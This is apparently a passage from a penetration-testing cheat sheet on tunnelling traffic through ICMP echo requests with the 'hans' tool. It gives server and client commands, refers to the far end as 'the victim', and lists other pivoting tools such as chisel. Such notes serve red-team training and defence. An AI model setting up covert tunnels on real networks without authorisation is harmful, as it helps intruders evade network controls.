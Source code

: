 ​https://github.com/friedrich/hans
https://github.com/albertzak/hanstunnel​

Root is needed in both systems to create tun adapters and tunnels data between them using ICMP echo requests.

./hans -v -f -s 1.1.1.1 -p P@ssw0rd #Start listening (1.1.1.1 is IP of the new vpn connection)
./hans -f -c <server_ip> -p P@ssw0rd -v
ping 1.1.1.100 #After a successful connection, the victim will be in the 1.1.1.100

Other tools to check

    ​https://github.com/securesocketfunneling/ssf​

    ​https://github.com/z3APA3A/3proxy​

    ​https://github.com/jpillora/chisel
